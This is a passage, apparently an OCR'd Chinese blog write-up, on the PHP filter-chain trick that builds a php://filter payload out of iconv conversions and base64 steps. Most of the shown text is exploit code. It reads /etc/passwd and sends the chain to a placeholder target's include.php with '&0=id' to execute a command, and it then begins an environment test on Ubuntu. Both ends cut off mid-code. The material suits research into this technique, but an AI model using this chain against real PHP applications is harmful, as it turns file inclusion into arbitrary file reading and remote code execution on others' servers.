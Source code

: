        );
       
       $filters = "convert.base64-encode|";
       
       # make sure to get rid of any equal signs in both the string we just generated and the rest of the file
       
       $filters .= "convert.iconv.UTF8.UTF7|";
       
       foreach (str_split(strrev($base64_payload)) as $c) {
       
       $filters .= $conversions[$c] . "|";
       
       $filters .= "convert.base64-decode|";
       
       $filters .= "convert.base64-encode|";
       
       $filters .= "convert.iconv.UTF8.UTF7|";
       
       }
       
       $filters .= "convert.base64-decode";
       
       $final_payload = "php://filter/{$filters}/resource=/etc/passwd";
       
       // echo $final_payload;
       
       var_dump(file_get_contents($final_payload));
       
       $a = base64_encode(file_get_contents($final_payload));
       
       echo($a);
       
       echo
       file_get_contents("http://XXXX/include.php?file=".urlencode($final_payload)."&0=id");
       
       ?>

纯使用wupco老师的生成的则会是部分乱码，因为payload大小写不分

[![Oe7iG9.png](https://s1.ax1x.com/2022/05/05/Oe7iG9.png)](https://imgtu.com/i/Oe7iG9)

## 环境测试

测试时Windows本地并不支持字符集，测试环境为Ubuntu 20.04，iconv (Ubuntu GLIBC 2.31-0ubuntu9) 2.31

 - [ ] 代码
       
       <?php
       
       $url = "php://filter/";
       
       $url .= "convert.iconv.UTF8.CSISO2022KR|";
       
       $url .= "convert.base64-encode|";
       
       $url .= "convert.iconv.UTF8.UTF7|";
       
       // 8
       
       $url .=
       "convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2";
       